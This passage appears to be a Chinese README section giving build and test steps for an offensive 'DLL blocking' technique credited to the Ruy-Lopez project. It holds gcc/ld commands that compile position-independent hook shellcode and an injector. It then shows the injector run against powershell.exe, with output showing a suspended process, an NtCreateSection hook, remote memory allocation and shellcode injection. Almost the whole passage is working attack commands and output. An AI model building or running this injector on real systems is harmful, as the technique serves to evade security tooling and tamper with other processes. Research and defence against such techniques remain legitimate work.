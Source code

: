 
## 测试步骤

### 1. 编译项目

```bash
cd techniques/08-dll-blocking/src

# 编译 PIC shellcode（警告：GCC 版本重要！）
gcc ApiResolve.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o ApiResolve.o -Wl,--no-seh
gcc HookShellcode.c -Wall -m64 -masm=intel -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o HookShellcode.o -Wl,--no-seh
ld -s ApiResolve.o HookShellcode.o -o HookShellcode.exe

# 提取 shellcode
gcc extract.c -o extract.exe
./extract.exe  # 生成 hook.bin

# 编译注入器
gcc dll_blocking.c -o dll_blocking.exe -lntdll -O2 -s
```

### 2. 执行注入测试

```bash
cd techniques/08-dll-blocking/src

# 使用 PowerShell 作为目标（原始 PoC 的用途）
./dll_blocking.exe powershell.exe

# 或使用 Notepad 测试
./dll_blocking.exe notepad.exe
```

**测试输出（使用原版 hook.bin）：**
```
===================================================================
Ruy-Lopez DLL Blocking - Main Injector
Based on: github.com/S3cur3Th1sSh1t/Ruy-Lopez
===================================================================

[*] Step 1: Initializing NT APIs...

[*] Step 2: Loading shellcode...
[+] Shellcode loaded: 3072 bytes

[*] Step 3: Creating suspended target process...
[+] Created suspended process (PID: 54556)

[*] Step 4: Getting NtCreateSection address...
[+] NtCreateSection address: 0x00007FFB404C3B60

[*] Step 5: Allocating memory in remote process...
[+] Allocated memory at: 0x0000024FD00A0000 (Size: 0x2000)

[*] Step 6: Saving original NtCreateSection bytes...
[+] Original bytes saved (24 bytes)

[*] Step 7: Finding egg and patching original bytes...
[+] Found egg at offset: 0x9E0
[+] Patched original bytes into shellcode at offset 0x9E0

[*] Step 8: Writing shellcode to remote process...
[+] Shellcode written successfully (3072 bytes)
```
